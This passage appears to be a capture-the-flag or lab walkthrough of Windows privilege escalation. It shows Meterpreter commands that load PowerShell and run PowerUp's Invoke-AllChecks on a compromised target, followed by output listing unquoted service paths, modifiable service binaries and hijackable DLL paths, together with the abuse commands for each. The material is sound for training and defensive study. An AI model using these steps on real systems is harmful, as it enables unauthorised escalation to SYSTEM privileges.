 Load the powershell module and use powershell.
```shell
load powershell
```
```shell
powershell_shell
```

Run the script PowerUp.ps1 that we just downloaded into the target and run it.

```shell
. .\powerup.ps1
```

We will now run all the checks in this module using the following command.
```shell
Invoke-AllChecks
```
```shell
PS > . .\powerup.ps1
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...

ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>

[*] Checking service executable and argument permissions...

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'IObitUnSvr'

[*] Checking service permissions...

[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Windows\system32\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\System32\WindowsPowerShell\v1.0\
```